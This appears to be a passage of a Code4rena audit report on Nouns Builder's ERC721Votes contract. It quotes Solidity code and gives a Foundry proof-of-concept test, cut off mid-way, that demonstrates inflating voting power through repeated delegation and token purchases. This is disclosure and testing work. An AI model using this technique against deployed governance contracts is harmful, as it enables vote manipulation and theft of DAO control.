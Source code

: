 [https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L268](https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L268)

        function _afterTokenTransfer(
            address _from,
            address _to,
            uint256 _tokenId
        ) internal override {
            // Transfer 1 vote from the sender to the recipient
            _moveDelegateVotes(_from, _to, 1);
    
            super._afterTokenTransfer(_from, _to, _tokenId);
        }

[https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L216](https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L216)

        _moveDelegateVotes(prevDelegate, _to, balanceOf(_from));
        ...
        unchecked {
                    ...
                    // Update their voting weight
                    _writeCheckpoint(_from, nCheckpoints, prevTotalVotes, prevTotalVotes - _amount);
                }

During delegation `balanceOf(from)` amount of votes transferred are to the `_to` address

        function test_UserCanGetUnlimitedVotes() public {
    
            vm.prank(founder);
            auction.unpause();
    
            vm.prank(bidder1);
            auction.createBid{ value: 1 ether }(2);
    
            vm.warp(10 minutes + 1 seconds);
    
            auction.settleCurrentAndCreateNewAuction();
            
            assertEq(token.ownerOf(2), bidder1);
    
            console.log(token.getVotes(bidder1)); // 1
            console.log(token.delegates(bidder1)); // 0 bidder1
    
            vm.prank(bidder1);
            token.delegate(bidder2);
    
            console.log(token.getVotes(bidder1)); // 1
            console.log(token.getVotes(bidder2)); // 1
    
            vm.prank(bidder1);
            auction.createBid{value: 1 ether}(3);
    
            vm.warp(22 minutes);
    
            auction.settleCurrentAndCreateNewAuction();
    
